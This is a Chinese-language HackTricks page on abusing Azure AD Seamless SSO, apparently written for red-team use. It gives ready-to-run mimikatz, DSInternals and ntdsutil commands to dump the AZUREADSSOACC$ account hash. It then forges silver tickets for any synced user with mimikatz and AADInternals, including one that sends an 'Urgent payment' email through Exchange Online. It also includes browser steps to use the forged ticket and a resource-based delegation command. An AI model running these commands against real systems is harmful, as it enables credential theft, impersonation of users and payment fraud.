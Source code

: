 # Az - 无缝SSO

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory无缝单点登录（Azure AD无缝SSO）会在用户使用公司设备连接到公司网络时**自动登录用户**。启用后，**用户无需输入密码即可登录Azure AD**，通常甚至无需输入用户名。此功能使用户可以轻松访问基于云的应用程序，无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

基本上，Azure AD无缝SSO会在用户**位于本地域加入的PC上**时**自动登录**用户。

它受到[**PHS（密码哈希同步）**](phs-password-hash-sync.md)和[**PTA（透传身份验证）**](pta-pass-through-authentication.md)的支持。

桌面SSO使用**Kerberos**进行身份验证。配置后，Azure AD Connect会在本地AD中创建一个名为**AZUREADSSOACC`$`**的计算机帐户。在配置过程中，`AZUREADSSOACC$`帐户的密码会**以明文形式发送到Azure AD**。

**Kerberos票据**使用密码的**NTHash（MD4）**进行加密，Azure AD使用发送的密码来解密票据。

**Azure AD**公开了一个**端点**（https://autologon.microsoftazuread-sso.com），用于接收Kerberos**票据**。域加入的计算机浏览器会将票据转发到此端点以进行SSO。

### 本地 -> 云

用户**`AZUREADSSOACC$`的密码永远不会更改**。因此，域管理员可以破坏此帐户的**哈希值**，然后使用它来**创建银票据**以与**任何本地用户同步**连接到Azure：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
使用哈希值，您现在可以**生成银票据**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
为了利用银票，应执行以下步骤：

1. **启动浏览器：**应启动Mozilla Firefox。
2. **配置浏览器：**
- 转到**`about:config`**。
- 将[网络.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)的首选项设置为指定的[值](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)：
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **访问Web应用程序：**
- 访问与组织的AAD域集成的Web应用程序。一个常见的示例是[Office 365](https://portal.office.com/)。
4. **认证过程：**
- 在登录屏幕上，输入用户名，将密码字段留空。
- 要继续，请按TAB或ENTER键。

{% hint style="success" %}
如果启用了MFA，这不会绕过MFA
{% endhint %}

#### ~~为仅云用户创建Kerberos票证~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果Active Directory管理员可以访问Azure AD Connect，他们可以为任何云用户**设置SID**。这样，Kerberos **票证也可以为仅云用户创建**。唯一的要求是SID是一个正确的[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
现在**Microsoft已阻止更改**仅云管理员用户的SID。\
有关信息，请查看[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### 从本地到云通过基于资源的受限委派 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

任何可以管理计算机帐户（`AZUREADSSOACC$`）在该帐户所在的容器或OU中的人，都可以**配置基于资源的受限委派并访问该帐户**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

